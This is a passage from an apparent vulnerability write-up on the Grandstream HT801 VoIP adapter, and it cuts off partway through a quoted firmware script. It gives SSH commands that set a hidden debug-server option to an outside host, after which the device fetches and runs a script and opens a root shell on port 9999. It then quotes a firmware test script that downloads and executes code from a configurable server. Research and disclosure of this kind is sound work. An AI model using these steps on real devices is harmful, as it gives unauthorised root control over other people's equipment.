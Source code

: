 After making sure that our TFTP server is up and running, we can proceed to activate the hidden setting on the device and reboot it:

```
$ ssh admin@192.168.1.128
Grandstream HT801 Command Shell Copyright 2006-2021
admin@192.168.1.128's password: 
GS> config
CONFIG> set gdb_debug_server 192.168.1.102
gdb_debug_server = 192.168.1.102
CONFIG> commit
Changes are commited.
CONFIG> get gdb_debug_server
gdb_debug_server = 192.168.1.102
CONFIG> exit
GS> reboot
Rebooting...


```

Upon the booting process, the device will fetch and execute the "gdbserver" script hosted on our TFTP server. A root shell is then waiting on port 9999:

```
$ telnet 192.168.1.128 9999
Trying 192.168.1.128...
Connected to 192.168.1.128.
Escape character is '^]'.
# uname -nrsm
Linux HT8XX 3.4.20-rt31-dvf-v1.2.6.1-rc2 armv5tejl


```

Another similar bug lurks in the "gs_test_suite.sh" file:

```
 1#!/bin/sh
 2
 3CUR_DIR=`pwd`
 4TEST_DIR=gs_test
 5TEST_SCRIPT=gs_test_script.sh
 6TEST_SERVER=`nvram get gs_test_server`
 7TEST_SERVER_PORT=80
 8
 9if [ ! -d /${TEST_DIR} ]; then
10        mkdir /${TEST_DIR}
11fi
12
13cd /${TEST_DIR}
14
15wget -q -t 2 -T 5 http://${TEST_SERVER}:${TEST_SERVER_PORT}/${TEST_SCRIPT} 
16if [ "$?" = "0" ]; then
17    echo "Finished downloading ${TEST_SCRIPT} from http://${TEST_SERVER}:${TEST_SERVER_PORT}"
18    chmod +x ${TEST_SCRIPT}
19    echo "Starting GS Test Suite..."
20    ./${TEST_SCRIPT} http
21else
22    echo "ERROR downloading ${TEST_SCRIPT} from http://${TEST_SERVER}:${TEST_SERVER_PORT}"
23    echo "Falling back to TFTP server..."
24    tftp -g -r ${TEST_SCRIPT} ${TEST_SERVER}
25    if [ "$?" = "0" ]; then
26        echo "Finished downloading ${TEST_SCRIPT} from TFTP ${TEST_SERVER}"
27        chmod +x ${TEST_SCRIPT}
28        echo "Starting GS Test Suite..."
29        ./${TEST_SCRIPT} tftp
```